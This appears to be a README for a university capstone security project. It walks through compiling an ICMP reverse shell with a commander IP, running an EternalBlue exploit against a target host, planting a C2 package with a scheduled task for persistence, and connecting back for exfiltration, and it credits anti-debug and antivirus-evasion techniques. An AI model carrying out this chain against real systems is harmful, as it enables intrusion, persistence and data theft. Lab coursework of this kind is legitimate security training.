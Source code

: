# CS564 - Capstone Project

---

## Requirement

-   Linux host (we use Kali)
-   Python 2.7
    -   [Installer (python.org)](https://www.python.org/downloads/release/python-2718/)
    -   [Pip installer](https://bootstrap.pypa.io/pip/2.7/get-pip.py)
    -   `impacket`: Run `python2 -m pip install impacket`
-   Python 3.4.4
    -   [Installer (python.org)](https://www.python.org/downloads/release/python-344/)
-   Visual C++ 2008 compiler.
    -   [Installer (archive.org)](https://web.archive.org/web/20210106040224/https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)

## Generating payload

We prepare a C2 package that communicates through ICMP protocol.

### Remote shell

To compile remote shell,
open Visual C++ 2008 32/64-bit Command Prompt, and type the
following. Remember to change `MY_IP` to the IP of commander.

```
cl.exe icmpsh-s.c /D"MY_IP=\"169.254.16.130\""
```

### Python code

To package python code, run `python_to_exe.py`

## Infiltrate

Inside folder, `eBlue.py` is the exploit. Run

```
python2 eBlue.py 169.254.16.129
```

After running, the C2 package should now be stored inside the target system.
Additionally, a scheduled task is made to execute C2 in the future.

## Exfil

Due to the protocol limitation, we need to connect using Linux system and
run the following command to disable automatic ICMP reply.


When the schedule task run, in order to connect,
execute on our host:

```
python3 icmpsh_m3.py 169.254.16.130 169.254.16.129
```


## Credits

-   `icmpsh-s.patch.c` and `icmpsh-m3.py` is based on [bdamele:icmpsh](https://github.com/bdamele/icmpsh)
-   `eBlue.py` from [Exploit-DB](https://www.exploit-db.com/exploits/42315)
-   Anti-debug techniques from [Anti-Debug Tricks](https://anti-debug.checkpoint.com/)
-   C obfuscation from [scrt:avcleaner](https://github.com/scrt/avcleaner)